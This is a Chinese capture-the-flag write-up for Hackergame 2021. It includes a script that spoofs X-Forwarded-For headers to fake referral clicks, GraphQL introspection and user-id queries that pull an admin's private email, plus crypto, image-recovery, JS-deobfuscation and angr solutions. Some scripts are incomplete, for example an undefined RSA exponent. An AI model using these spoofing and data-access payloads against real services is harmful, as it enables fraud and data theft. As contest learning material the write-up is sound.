

# Hacker Game 2021 Writeup


## 写在前面

大概是最后一次在校内组打Hacker Game（~~然而一共也就参加了两次~~），吐槽一句，今年对crypto太不友好了，就只有一道RSA，另外今年web出得确实很照顾新手，此writeup同步更新至[博客](https://tl2cents.github.io/2021/10/31/Hackgame2021/)


## FLAG 助力大红包

经典拼夕夕doge，一共需要256位好友点击助力链接才能拿到flag，但是助力判定不同的区域是前8位ip域，所以应该只能上脚本，首先用burp suite抓包确定基本的包的格式，发现content段有ip=xxx.xxx.xxx.xxx，我们可以构造payload满足上面条件即可，但是发现会返回前后端ip不匹配，因此可以考虑用http的X-forwarded-for段进行伪造。交互脚本如下：

```python
import requests
from time import sleep

target_url='助力链接'

header={
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'X-forwarded-for' :  'x.x.x.x',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Connection': 'close'
}

json_data={
    'ip':'0.0.0.0'
}
for i in range(0,256):
    ip=str(i)+'.0.0.0'
    json_data['ip']=ip
    header['X-forwarded-for']=ip
    res=requests.post(url=target_url, headers=header,data=json_data)
    sleep(1.5)
    print(res.text.split('\n')[16:18])
```


## 图之上的信息

`GraphQl` API，直接搜，找到两篇不错的参考：[GraphQL安全指北](https://www.anquanke.com/post/id/156930#h3-6)，[Hack In Paris 2019 CTF – “Meet Your Doctor”](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/)。直接`url+graphql?query=payload`进行查询

payload下面的字段可以查询所有可用对象

```python
 {
        __schema {
            types {
                name
            }
        }
    }
```


得到所有对象及其类型：

```python
{"data":
    {"__schema":
        {"types":
            [{"name": "Query"}, {"name": "GNote"}, {"name": "Int"}, {"name": "String"}, {"name": "GUser"}, {"name": "Boolean"}, {"name": "__Schema"},
             {"name": "__Type"}, {"name": "__TypeKind"}, {"name": "__Field"}, {
                 "name": "__InputValue"}, {"name": "__EnumValue"}, {"name": "__Directive"},
             {"name": "__DirectiveLocation"}]}}}
```


构造payload为下面字段查询指定对象的所有字段（查询数据库内所有query函数的具体信息和用法）

```python
query={
  __type(name:"Query"){
    fields {
      description
      name
      type {
        name
        kind
            ofType {
              name
              kind
              description
            }
      }
    }
    }
}
```


我们得到下面结果：

```python
{"data":
    {"__type":
        {"fields":
            [
                {"description": "Get a specific note information", "name": "note", "type":
                    {"name": "GNote", "kind": "OBJECT", "ofType": null}
                 },
                {"description": "Get notes information of a user", "name": "notes", "type":
                    {
                        "name": null, "kind": "LIST", "ofType":
                            {"name": "GNote", "kind": "OBJECT", "description": null}
                    }
                 },
                {"description":
                    "Get a specific user information", "name": "user", "type":
                        {"name": "GUser", "kind": "OBJECT", "ofType": null}}]}}}
```


我们得到一个query函数为`user：Get a specific user information`，而我们需要获取的是admin的邮箱，再查用户（`Guser`）的字段：

```python
{"data": 
  {"__type": 
    {"name": "GUser", 
     "fields": [
       {"name": "id", "type": {"name": "Int"}}, 
       {"name": "username", "type": {"name": "String"}},
       {"name": "privateEmail", "type": {"name": "String"}}]
                     }}}
```

有`privateEmail`字段，那么就可以利用`user`这个query进行爆破，一般admin是第一位用户，试了下发现id=1返回正确结果，payload如下：

`http://202.38.93.111:15001/graphql?query={user(id:1){privateEmail}}`

得到flag。


## Easy RSA

唯一一道crypto题。简单了解RSA和基本数论就能解，主要用到Wilson 定理，$(p-1)!\equiv-1  \  mod \  p$。我们需要求 $y\ !  \ mod \ x$。而且y特别接近于x，由下面式子很容易求出表达式：$$y!*(y+1)*(y+2)...(p-1)  \equiv  \  -1 \  mod  \  x  \quad  得到 \quad y!\  \equiv  \  -((y+1)*(y+2)...(p-1))^{-1}\  mod \  x$$。其他的加密过程逆向很显然。解题脚本如下：

```python
import gmpy2
import sympy
from Crypto.Util.number import *

x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
y = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439

num=1
for i in range(x-y-1):
    num=num*(y+i+1)%x
num=-num%x
t=gmpy2.invert(num,x)
print(t)
p=sympy.nextprime(t)
print(p)

value=[80096058210213458444437404275177554701604739094679033012396452382975889905967]
for i in range(1,10):
    value.append(sympy.prevprime(value[i-1]))
n=1
for i in range(10):
    n = n * value[i]
phin=1
for i in value:
    phin=phin*(i-1)
    
d1=gmpy2.invert(gmpy2.mpz(e),gmpy2.mpz(phin))
value_q = 5591130088089053683141520294620171646179623062803708281023766040254675625012293743465254007970358536660934858789388093688621793201658889399155357407224541324547522479617669812322262372851929223461622559971534394847970366311206823328200747893961649255426063204482192349202005330622561575868946656570678176047822163692259375233925446556338917358118222905050574458037965803154233167594946713038301249145097770337253930655681648299249481985768272321820718607757023350742647019762122572886601905212830744868048802864679734428398229280780215896045509020793530842541217790352661324630048261329493088812057300480085895399922301827190211956061083460036781018660201163819104150988531352228650991733072010425499238731811243310625701946882701082178190402011133439065106720309788819
q=sympy.nextprime(int(pow(value_q,d1,n)))
phi=(p-1)*(q-1)
n=p*q
d=int(gmpy2.invert(e,phi))
c = 110644875422336073350488613774418819991169603750711465190260581119043921549811353108399064284589038384540018965816137286856268590507418636799746759551009749004176545414118128330198437101472882906564195341277423007542422286760940374859966152871273887950174522820162832774361714668826122465471705166574184367478
m=pow(int(c),int(d),n)
print(long_to_bytes(m))
```


## 马赛克

可能是写出来的解法最复杂的思路，但应该是比较**直接**的一个解法，不用深度优先遍历，纯用子集和（subset）来直接解每个马赛克格子可能的状况。思路如下：

- 根据马赛克每块内像素点的值我们可以逆推出原来这个区块可能的像素值为255的个数p_sum，注意p_sum有两个或者三个可能值。
- 马赛克size为（23，23），而二维码块size为（11 ，11），每个马赛克块会与9个二维码相交。因此一个马赛克可以分为9个区域，像素点数分布为[p1，p2， p3，...，p9]，这些区域内二维码块像素值一定相同。
- 根据已经有的二维码块的值恢复上面部分p1到p9的部分区域。
- 在恢复部分后，求解subset问题：集合[p1，p2， p3，...，p9] 使得$$\sum_{i=1}^9 x_i*(p_i) \ =\ p_{sum} \ \ x_i=0 \ or \  1$$ 。注意，为了防止错误恢复，我们每一轮都只在没有多解的情况下，尽可能地恢复可以确定的区域：这意味着p_sum只有一个满足条件并且subset解唯一。注意到p1到p9中可能有相等的块，比如p1=p2，我们认为（p2,2）和（p1,2）是同一解，但是如果区域内还有p3=p1，我们不能确定p1，p2，p3的值，但是我们可以恢复其他区域的值。因为集合比较小，我直接采用了爆破的方式求子集和问题。


最后写了个及其冗长的代码如下(没把大函数分开，recover函数巨长)：

```python
import math
import numpy as np
from PIL import Image

X, Y = 103, 137     # 马赛克左上角位置(单位为像素)
N = 20              # 马赛克块的数量（共N*N块）
BOX_SIZE = 23       # 每个马赛克块的大小（边长，单位为像素）
PIXEL_SIZE = 11     # 二维码每个块的大小（边长，单位为像素）

img=Image.open("./pixelated_qrcode.bmp")
ar = np.array(img, dtype='uint8')

def get_origin_pix_num(sum):
    ls=[]
    avg=sum//(BOX_SIZE*BOX_SIZE)
    i=sum//255-1
    while True:
        if math.floor(i*255//(BOX_SIZE*BOX_SIZE))==avg:
            ls.append(i)
        if math.floor(i*255//(BOX_SIZE*BOX_SIZE))>avg:
            break
        i+=1
    return ls

def get_mosaic_region(x,y):
    a=(x-X)//BOX_SIZE
    b=(y-Y)//BOX_SIZE
    return a,b

def get_qr_region(x,y):
    a=x//PIXEL_SIZE
    b=y//PIXEL_SIZE
    return a,b

def intercept_number(a,b,x1,x2,y1,y2):
    res=0
    for h in range(a*PIXEL_SIZE,(a+1)*PIXEL_SIZE):
        for k in range(b*PIXEL_SIZE,(b+1)*PIXEL_SIZE):
            # print(h,k,x1,x2,y1,y2)
            if h>=x1 and h<x2 and k >=y1 and k<y2:
                res+=1
    return res
    
def intercept_numlist(x1,x2,y1,y2):
    # 只提取还没有确定像素值的相交区域
    num_list=[]
    a_bls=[]
    for x in range(x1,x2):
        for y in range(y1,y2):
            if ar[x,y]==0 or ar[x,y]==255:
                continue
            a,b=get_qr_region(x,y)
            if (a,b) in a_bls:
                continue
            else:
                num_list.append(intercept_number(a,b,x1,x2,y1,y2))
                a_bls.append((a,b))
    return num_list,a_bls

            
def undetermined_num(x1,x2,y1,y2):
    res1=0
    res2=0
    for x in range(x1,x2):
        for y in range(y1,y2):
            if ar[x,y]!=0 and ar[x,y]!=255:
                res1+=1
            if ar[x,y]==255:
                res2+=1
    return res1,res2

def get_pix_num(i,j):
    # 返回未确定的像素点的值以及其中值为255的像素点的个数
    x1 = X + i*BOX_SIZE
    x2 = X + (i+1)*BOX_SIZE
    y1 = Y + j*BOX_SIZE
    y2 = Y + (j+1)*BOX_SIZE
    avg=-1
    for x in range(x1,x2):
        for y in range(y1,y2):
            if ar[x,y]!=0 and ar[x,y]!=255:
                avg=ar[x,y]
                break
    if avg==-1:
        return 0,[0]
    sum_r=avg*BOX_SIZE*BOX_SIZE
    undetermined_pix_num,dpix_num=undetermined_num(x1,x2,y1,y2)
    determined_pix=np.sum(ar[x1:x2, y1:y2]==255)
    print(dpix_num,determined_pix)
    assert dpix_num==determined_pix
    pix_numls=get_origin_pix_num(sum_r)
    for i in range(len(pix_numls)):
        pix_numls[i]-=determined_pix
    return undetermined_pix_num,pix_numls
    
def subset_sum(lst, target):
    # 暴力求解子集和问题
    for i in range(1, 2**len(lst)):
        pick = list(mask(lst, bin(i)[2:]))
        if sum(pick) == target:
            yield pick
            
def mask(lst, m):
    m = m.zfill(len(lst))
    return map(lambda x: x[0],  filter(lambda x: x[1]!='0',  zip(lst, m)))

def recover_one_mosaic(i,j):
    global remain_ls
    x1 = X + i*BOX_SIZE
    x2 = X + (i+1)*BOX_SIZE
    y1 = Y + j*BOX_SIZE
    y2 = Y + (j+1)*BOX_SIZE
    de_ls,qr_ls=intercept_numlist(x1,x2,y1,y2)
    print("THIS TIME HANDLE: ",de_ls)
    print("THIS TIME HANDLE: ",qr_ls)
    undetermined_pix_num,pix_numls=get_pix_num(i,j)
    iter_list=qr_ls.copy()
    
    possible=[]
    print(pix_numls)
    for num in pix_numls:
        if num == 0:
            return
        init_res=isSubsetSum(de_ls,len(de_ls),num)
        if init_res!=False:
            pix_num=num
            possible.append(pix_num)
    print("init_res",init_res)
    print("pix_num",pix_num)
    # 去除可以直接确定的区域
    for (a,b) in iter_list:
        flag=0
        for h in range(a*PIXEL_SIZE,(a+1)*PIXEL_SIZE):
            for k in range(b*PIXEL_SIZE,(b+1)*PIXEL_SIZE):
                if ar[h,k]==0 or ar[h,k]==255:
                    original_rgb=ar[h,k]
                    flag=1
                    break
        if flag:
            print("This is moved",intercept_number(a,b,x1,x2,y1,y2),original_rgb)
            for h in range(a*PIXEL_SIZE,(a+1)*PIXEL_SIZE):
                for k in range(b*PIXEL_SIZE,(b+1)*PIXEL_SIZE):
                    if h>=x1 and h<x2 and k >=y1 and k<y2:
                        if ar[h,k]!=original_rgb:
                            ar[h,k]=original_rgb
                            undetermined_pix_num-=1
                            pix_num-=original_rgb//255
                            for i in range(len(possible)):
                                possible[i]-=original_rgb//255
                            
    num_list,qr_ls=intercept_numlist(x1,x2,y1,y2)
 
    res_solu=[]
    print("possible",possible)
    print("pix_num",pix_num)
    print("numlist: ",num_list)
    for i in possible:
        pix_num=i
        if pix_num==0:
            break
        k = subset_sum(num_list, pix_num)
        solu=list(k)
        if len(solu)>1:
            if all(sorted(i)==sorted(solu[0]) for i in solu):
                res_solu.append(solu[0])
            else:
                print("MULTIPLE SOLU!!!!")
                return
        if len(solu)==1:
            res_solu.append(solu[0])
   
    if len(res_solu)>1:
        print(res_solu)
        print("MULTIPLE SOLU!!!!")
        return
    if len(res_solu)==1:
        solu=res_solu[0]
    if (len(res_solu)==0) and pix_num!=0:
        print("check your algorithmn")
        exit()
    if pix_num==0:
        solu=[]
    print("final solu:",solu)
    to_do=solu.copy()
    for num in to_do:
        if num in num_list and num in solu and num_list.count(num)>solu.count(num):
            while num in solu:# remove all
                solu.remove(num)
            while num in num_list:# remove all
                num_list.remove(num)
    print("final solu:",solu)
    print("numlist: ",num_list)
    
    for (a,b) in qr_ls:
        num=intercept_number(a,b,x1,x2,y1,y2)
        if num in solu:
            for h in range(a*PIXEL_SIZE,(a+1)*PIXEL_SIZE):
                for k in range(b*PIXEL_SIZE,(b+1)*PIXEL_SIZE):
                    if h>=x1 and h<x2 and k >=y1 and k<y2:
                        ar[h,k]=255
                        undetermined_pix_num-=1
                        pix_num-=1
        elif num in num_list:
            for h in range(a*PIXEL_SIZE,(a+1)*PIXEL_SIZE):
                for k in range(b*PIXEL_SIZE,(b+1)*PIXEL_SIZE):
                    if h>=x1 and h<x2 and k >=y1 and k<y2:
                        ar[h,k]=0
                        undetermined_pix_num-=1

    print(undetermined_pix_num,pix_num)

count=0
pre=np.copy(ar)
while True:
    pre=np.copy(ar)
    for i in range(N):
        for j in range(N):
            print("come to region:",i,j)
    if (ar==pre).all():
        print("NO CHANGES")
        break
    img=Image.fromarray(ar, mode='L')
    img.show()
    img.save("moc%d.bmp"%count)
    count+=1
    if count>50:
        break
img=Image.fromarray(ar, mode='L')
img.show()
img.save("mosaicf.bmp")
```


实际上只用了两轮就恢复到可以扫出二维码了。但是不能完全恢复，可以考虑之后用深优遍历完全恢复。


## Minecraft

其实吧，我觉得这题应该放逆向的，不算web。进入游戏界面F12，看js代码，发现一个可疑js代码`flag.js`，进去之后发现这个代码极其难读，简直混淆得亲妈都不认识了。可以考虑进行反混淆一下，至少看起来不那么别扭，推荐[jsnice](https://jsnice.org/)进行反混淆，结果如下（加了些调试用的console）。

```js
const _0x22517d = _0x2c9e;
(function(saveNotifs, data) {
  const toMonths = _0x2c9e;
  // console.log(data)
  const params = saveNotifs();
  // console.log(params)
  for (; !![];) {
    try {
      const lastScriptData = -parseInt(toMonths(433)) / 1 * (parseInt(toMonths(429)) / 2) + -parseInt(toMonths(434)) / 3 * (parseInt(toMonths(438)) / 4) + -parseInt(toMonths(430)) / 5 * (-parseInt(toMonths(436)) / 6) + parseInt(toMonths(427)) / 7 * (parseInt(toMonths(431)) / 8) + parseInt(toMonths(437)) / 9 + -parseInt(toMonths(435)) / 10 + -parseInt(toMonths(425)) / 11 * (-parseInt(toMonths(423)) / 12);
      // console.log("lastScriptData")
      // console.log(lastScriptData)
      if (lastScriptData === data) {
        break;
      } else {
        params["push"](params["shift"]());
      }
    } catch (_0x416145) {
      params["push"](params["shift"]());
    }
  }
})(_0x381b, 138248), String["prototype"][_0x22517d(424)] = function(myPreferences) {
  const getPreferenceKey = _0x22517d;
  const left = new Array(2);
  const extra = new Array(4);
  console.log("myPreferences",myPreferences)
  let _0x1bf548 = "";
  /** @type {string} */
  plaintext = escape(this);
  console.log("plaintext",plaintext)
  /** @type {number} */
  var name = 0;
  for (; name < 4; name++) {
    extra[name] = Str4ToLong(myPreferences[getPreferenceKey(422)](name * 4, (name + 1) * 4));
  }
  console.log("extra",extra)
  /** @type {number} */
  name = 0;
  console.log("len:",plaintext[getPreferenceKey(440)])
  for (; name < plaintext[getPreferenceKey(440)]; name = name + 8) {
    left[0] = Str4ToLong(plaintext["slice"](name, name + 4));
    // console.log("left0",left[0])
    // console.log(plaintext["slice"](name, name + 4))
    left[1] = Str4ToLong(plaintext[getPreferenceKey(422)](name + 4, name + 8));
    console.log("left",left)
    // console.log(plaintext["slice"](name+4, name + 8))
    console.log("extra",extra)
    code(left, extra);
    _0x1bf548 = _0x1bf548 + (LongToBase16(left[0]) + LongToBase16(left[1]));
  }
  console.log("get_one")
  return _0x1bf548;
};
/**
 * @param {number} localPublishTime
 * @param {?} primaryTxHex
 * @return {?}
 */
function _0x2c9e(localPublishTime, primaryTxHex) {
  const newAttempts = _0x381b();
  return _0x2c9e = function(time, primaryTxHex) {
    /** @type {number} */
    time = time - 422;
    let _0x4769df = newAttempts[time];
    return _0x4769df;
  }, _0x2c9e(localPublishTime, primaryTxHex);
}
/**
 * @param {!Object} p
 * @param {!Object} t
 * @return {undefined}
 */
function code(p, t) {
  let tmp = p[0];
  let d = p[1];
  const reconnectTimeIncrease = 1389343454 + 1265092315;
  const _0x2bdc23 = reconnectTimeIncrease * 32;
  let waitBeforeReconnect = 0;
  console.log("\n\nstart to encode")
  for (; waitBeforeReconnect != _0x2bdc23;) {
    tmp = tmp + ((d << 4 ^ d >>> 5) + d ^ waitBeforeReconnect + t[waitBeforeReconnect & 3]);
    waitBeforeReconnect = waitBeforeReconnect + reconnectTimeIncrease;
    d = d + ((tmp << 4 ^ tmp >>> 5) + tmp ^ waitBeforeReconnect + t[waitBeforeReconnect >>> 11 & 3]);
  }
  p[0] = tmp;
  p[1] = d;
}

/**
 * @param {?} result
 * @return {?}
 */
function Str4ToLong(result) {
  const cleanKey = _0x22517d;
  let _update_every = 0;
  for (let req = 0; req < 4; req++) {
    /** @type {number} */
    _update_every = _update_every | result[cleanKey(428)](req) << req * 8;
  }
  return isNaN(_update_every) ? 0 : _update_every;
}
/**
 * @param {?} left
 * @return {?}
 */
function LongToBase16(left) {
  let subBuffer = "";
  for (let i = 3; i >= 0; i--) {
    let c = (left >> 8 * i & 255)["toString"](16);
    if (parseInt("0x" + c) <= 15) {
      /** @type {string} */
      c = "0" + c;
    }
    subBuffer = subBuffer + c;
  }
  return subBuffer;
}
/**
 * @param {?} array
 * @return {?}
 */
function Base16ToLong(array) {
  const customRandomIndex = _0x22517d;
  let radiusError = 0;
  for (let i = 0; i < 8; i = i + 2) {
    let xChange = parseInt("0x" + array[customRandomIndex(422)](i, i + 2));
    radiusError = (radiusError << 8) + xChange;
  }
  return radiusError;
}
/**
 * @return {?}
 */
function _0x381b() {
  const _0x4af9ee = ["encrypt", "33MGcQht", "6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c", "14021KbbewD", "charCodeAt", "808heYYJt", "5DlyrGX", "552oZzIQH", "fromCharCode", "356IjESGA", "784713mdLTBv", "2529060PvKScd", "805548mjjthm", "844848vFCypf", "4bIkkcJ", "1356853149054377", "length", "slice", "1720848ZSQDkr"];
  /**
   * @return {?}
   */
  _0x381b = function() {
    return _0x4af9ee;
  };
  return _0x381b();
}
/**
 * @param {?} canCreateDiscussions
 * @return {?}
 */
function LongToStr4(canCreateDiscussions) {
  const gotoNewOfflinePage = _0x22517d;
  const _0x106afc = String[gotoNewOfflinePage(432)](canCreateDiscussions & 255, canCreateDiscussions >> 8 & 255, canCreateDiscussions >> 16 & 255, canCreateDiscussions >> 24 & 255);
  return _0x106afc;
}
/**
 * @param {?} myPreferences
 * @return {?}
 */
function gyflagh(myPreferences) {
  const stripped_san = _0x22517d;
  let clean_move = myPreferences[stripped_san(424)](stripped_san(439));
  if (clean_move === stripped_san(426)) {
    return !![];
  }
  return ![];
}
;

```


至少识别出来了一些函数的名字，另外变量也好看多了。此时我们再动态调试一下（单步调试看看它进了哪些函数，再console.log()疯狂输出局部变量)。我们发现它获取一个字符串，经过`(function(saveNotifs, data) )`这个函数进行了加密，然后与`6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c`比较。进一步跟进，我们发现1356853149054377是`prekey`，进入之后产生了 extra[]这个数组，这个数组才是后面真正需要用到的key。最关键的加密函数就在code里面，明文8个字节一组，分为左右两个部分进行了加密，并且恰好就是Feistel架构，这样解密流程与加密基本一致，逆向完成。


逆向的code如下：

```js
function re_code(p, t) {
  //逆向code函数
  let tmp = p[0];
  let d = p[1];
  const reconnectTimeIncrease = 1389343454 + 1265092315;
  const _0x2bdc23 = reconnectTimeIncrease * 32;
  let waitBeforeReconnect = _0x2bdc23;
  // console.log("\n\nstart to decode")
  for (; waitBeforeReconnect !=0;) {
    d = d - ((tmp << 4 ^ tmp >>> 5) + tmp ^ waitBeforeReconnect + t[waitBeforeReconnect >>> 11 & 3]);
    waitBeforeReconnect = waitBeforeReconnect - reconnectTimeIncrease;
    tmp = tmp - ((d << 4 ^ d >>> 5) + d ^ waitBeforeReconnect + t[waitBeforeReconnect & 3]);
  }
  p[0] = tmp;
  p[1] = d;
}
//subkey 数组 extra
extra = [909456177, 825439544, 892352820, 926364468 ]
encflag=[0x6fbde674,0x819a59bf,0xa1209256,0x5b4ca2a7,0xa11dc670,0xc678681d,0xaf4afb67,0x04b82f0c]
// encflag=[0xa600f54d,0x7f21501c,0xd0467091,0x31491ce2,0x96bcf7b0,0x5487e577]
i=0
for (; i <= 8; i = i + 2) {
  let n=[encflag[i],encflag[i+1]]
  re_code(n,extra)
  console.log(LongToStr4(n[0]))
  console.log(LongToStr4(n[1]))
}
// flag{McWebRE_inMlnCrA1t_3a5y_1cIuop9i}
```


## 超 OI 的 Writeup 模拟器（前两问）

IDA看逆向出来的函数发现做了混淆，看到这么多逆向文件，第一个想到的是用`angr`做符号执行，然后简单试了下发现`angr`是能够执行到目标地址的，而且很快（不用去混淆），但是你会发现没有stdin的输入，发现用了`getline`，而且是C语言linux框架下的getline（不是C++）。而angr处理库函数的本质是用simProcedure去hook库函数调用，而angr的simProcedure是没有`getline`函数的，所以它无法处理`getline`的库函数调用，自然无法在stdin得到输入。这里给出两种解决方案：

### 1. hook getline

自己写一个简单的getline的simProcedure，我尝试魔改gets写了个，但是好像不太行，可以得到stdin输入了，但是写入的地址不太对（有兴趣的可以改一下），你可以在本地angr源代码 `angr/procedures/libc` 目录下查看angr实现的所有simProceduere函数，理论上其他的所有C++ 和未实现的C库函数你可以参考它们的写方法进行定义然后hook：

```python
class mgetline(angr.SimProcedure):
    def run(self, dst,n,fd):
        # fd=0 就是stdin
        if once("gets_warning"):
            _l.warning("The use of gets in a program usually causes buffer overflows. You may want to adjust "
                       "SimStateLibc.max_gets_size to properly mimic an overflowing read.")
        max_size = self.state.libc.max_gets_size
        dst1=self.state.heap._malloc(max_size)
        fd = 0
        simfd = self.state.posix.get_fd(fd)
        count=0
        while count < max_size - 1:
            data, real_size = simfd.read_data(1)
            if self.state.solver.is_true(real_size == 0):
                break
            self.state.memory.store(dst1 + count, data)
            count += 1
            if self.state.solver.is_true(data == b'\n'):
                break
        self.state.memory.store(dst1 + count, b'\0')
        print(dst,dst1)
        # 存heap分配后的地址到dst
        self.state.memory.store(dst,dst1)
        return count
```


### 2 . 直接Load内存

我们发现主函数里面调用getline之前把lineptr初始化了0（即NULL），正常来说我们是不能往地址0处写入内容的，但是angr是符号执行，它可以为所欲为，我猜测它调用不了`getline`就直接跳过了，然后任意给v6赋值，在lineptr原本指向的地址0处任意写字符串，所以它才可以执行到我们预设的`correct code`处。




那么我们找到正确执行的路径后，直接取内存0处的16个字节就能得到验证码了。(甚至不用做约束)

```python
import angr
import claripy
import sys
path = "./0.bin"
project = angr.Project(path,auto_load_libs=False)
state = project.factory.entry_state()
angr.procedures.SIM_LIBRARIES
simulation = project.factory.simgr(state)

def isSuccessful(state: angr.SimState):
    value = state.posix.dumps(sys.stdout.fileno())
    return b"Correct code" in value
def isAvoid(state: angr.SimState):
    value = state.posix.dumps(sys.stdout.fileno())
    return b"Wrong code" in value
simulation.explore(find=isSuccessful,avoid=isAvoid)
if simulation.found:
    relState = simulation.found[0]
    ans=relState.solver.eval(relState.memory.load(0,16),cast_to=bytes)
    print(ans)
    print(relState.posix.dumps(sys.stdout.fileno()))
else:
    print("not found")
```


最后前面两题的自动化脚本如下：

```python
import angr
import claripy
import sys
import requests
from time import sleep
url="http://202.38.93.111:13768"
post_url="http://202.38.93.111:13768/submit"
token="/login?token=your token"
session = requests.session()
session.get(url+token)
flag_list=[]
ans_list=[b'0']*256

def isSuccessful(state: angr.SimState):
    value = state.posix.dumps(sys.stdout.fileno())
    return b"Correct code" in value
def isAvoid(state: angr.SimState):
    value = state.posix.dumps(sys.stdout.fileno())
    return b"Wrong code" in value

for i in range(0,16):
    bin_url = "http://202.38.93.111:13768/challenge/%d.bin"%i
    r = session.get(bin_url) 
    with open("%d.bin"%i,'wb') as f:
        f.write(r.content)
    path="./%d.bin"%i
    project = angr.Project(path,auto_load_libs=False)
    state = project.factory.entry_state()
    simulation = project.factory.simgr(state)
    simulation.explore(find=isSuccessful,avoid=isAvoid)
    if simulation.found:
        relState = simulation.found[0]
        ans=relState.solver.eval(relState.memory.load(0,16),cast_to=bytes).decode("utf8")
    else:
        print("not found")
    post_data={
        "ans": ans,
    }
    print("The %dth ans is "%i,ans)
    ans_list[i]=ans
    print(ans_list)
    res=session.post(url=post_url,data=post_data)
    if "两次提交时间" in res.text:
        sleep(3)
        res=session.post(url=post_url,data=post_data)    
    if "答案正确!" not in res.text:
        print(res.text)
        print("TRYING %dth times"%i)
        break
    if 'flag{' in res.text:
        f_start=res.text.index('flag{')
        flag=res.text[f_start:f_start+100]
        if flag not in flag_list:
            flag_list.append(flag)
        print(flag)
print(flag_list)
```


第三问由于做了混淆，并且出现了函数递归导致angr符号执行一直跑不出来，所以不能用上面方法解。（后面一直在尝试去ollvm类的混淆，结束后出题人说有原创混淆，好的，打扰了orz）。如果有机会能用 angr hook去掉递归类的混淆，后面的题目也应该能用上面脚本解的。
